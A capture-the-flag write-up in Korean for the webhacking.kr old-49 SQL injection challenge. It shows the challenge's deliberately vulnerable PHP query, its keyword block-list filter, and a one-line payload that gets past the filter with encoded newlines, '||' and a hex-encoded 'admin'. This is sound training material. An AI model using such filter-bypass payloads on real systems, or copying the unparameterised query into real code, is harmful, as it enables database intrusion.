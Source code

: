 ```yaml
---
title: ["[Webhacking.kr] old-49 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
```  

old-46과 동일한 DB인 것 같다.  
`(`, ` `, `\t`를 필터링하지만, `%0a`로 공백을 우회할 수 있다.

```
?lv=0%7c%7cid%0alike%0a0x61646d696e%23
```
